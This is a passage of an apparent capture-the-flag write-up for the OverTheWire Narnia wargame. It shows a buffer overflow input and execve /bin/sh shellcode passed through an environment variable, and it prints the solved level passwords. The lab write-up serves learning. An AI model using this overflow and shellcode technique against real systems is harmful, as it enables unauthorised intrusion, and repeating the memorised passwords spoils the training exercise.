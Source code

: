 # [The Narnia wargame](https://overthewire.org/wargames/narnia/)
host: [narnia.labs.overthewire.org](narnia.labs.overthewire.org)  
port: 2226  
username: narnia<level>  
start password: narnia0  
### login via ssh
```
ssh narnia<level>@narnia.labs.overthewire.org -p 2226
```

### level 0 -> 1
Simple buffer overflow
```shell
narnia0@narnia:/narnia$ (printf 'aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde';cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```
**password:**  
efeidiedae

### level 1 -> 2
We need to set environment variable named "EGG" to shellcode the program will run  
I use [this](http://shell-storm.org/shellcode/files/shellcode-811.php) shellcode to open shell as narnaia1
```shell
narnia1@narnia:/narnia$ export EGG=$(python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ cat /etc/narnia_pass/narnia2
nairiepecu
```
**password:**  
nairiepecu
  
### level 2 -> 3

**password:**  
